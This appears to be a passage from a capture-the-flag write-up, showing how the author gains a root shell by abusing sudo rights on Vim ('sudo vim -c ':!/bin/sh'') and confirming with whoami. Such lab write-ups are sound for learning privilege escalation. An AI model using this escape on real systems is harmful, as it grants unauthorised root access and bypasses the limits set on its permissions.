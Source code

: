 ### What's the root flag?
Since we know that we are able to run Vim as root, I entered the following command:

```
sudo vim -c ':!/bin/sh'
```

This code starts Vim as super-user, then performs a command in Vim(as a super-user), and the command we performed is starting a shell. So, we'll see if we find any success...

It returned the following:

![root screen](./screenshots/rootscreen.png)

Never mind that gibberish on the right, that hash-mark on the very right is very promising! To verify if I'm root, I typed the following:

```shell
whoami
```

...and recieved the following:

```
root
```

I am root!

![i am root](./screenshots/iamroot.jpg)
